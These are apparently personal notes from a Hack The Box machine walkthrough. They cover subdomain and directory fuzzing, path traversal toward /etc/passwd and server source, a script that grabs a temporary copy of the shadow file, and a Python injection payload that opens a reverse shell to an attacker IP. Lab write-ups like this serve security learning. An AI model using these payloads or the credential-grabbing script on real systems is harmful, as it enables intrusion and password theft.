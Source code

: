 ```python
```


* The code I used to get the contents of the file that has the contents of the shadow file before it gets removed  

```python
#!/usr/bin/env python3 
  
import os
import time

while True:
    if len(os.listdir('/tmp/SSH')) > 0:
        time.sleep(.05)
        with open('/tmp/SSH/'+os.listdir('/tmp/SSH')[0], 'r') as f:
            data = f.readlines()
        passwords = []
        for x in data:
            if not x == None:
                passwords.append(x)

        #passwordFile = '\n'.join(['\n'.join(p) for p in passwords])
        with open('/tmp/passes', 'w') as f:
            f.write(passwords)
        break
```

wfuzz -u http://10.129.1.140/ -H "Host: FUZZ.obscure.htb" -w /home/kali/Documents/cloned_reps/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --hh 11510   

gobuster dns -d obscure -w /home/kali/Documents/cloned_reps/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t20  

python3 dirsearch.py -u http://10.129.1.140:8080 -e py,txt,php,html

* So when I dirbustered it gave me this "/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" that it results in a 500 internal server error which is good I guess because this means it triggered an error of some kind that means I'm getting closer. I hope.    
* Or just put /..'s without them being encoded gives an internal server error too.  

* So I tried this `../SuperSecureServer.py` and it worked it returned me the server's source code without even knowing what is teh directory's name ( It was wrong for them to put the exact name of the file ).   
* Check out the source code in the file in the same folder as this file.  

* I can use this to inject a rev shell in the python code  
```
/';socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);shit2='crap2
```  
* The backslash is important so that the code can understand that this is the beginning of the path.  

* Found a password that might be robert's " ´ÑÈÌÉàÙÁÑé¯·¿k " but it might not be plain text.  

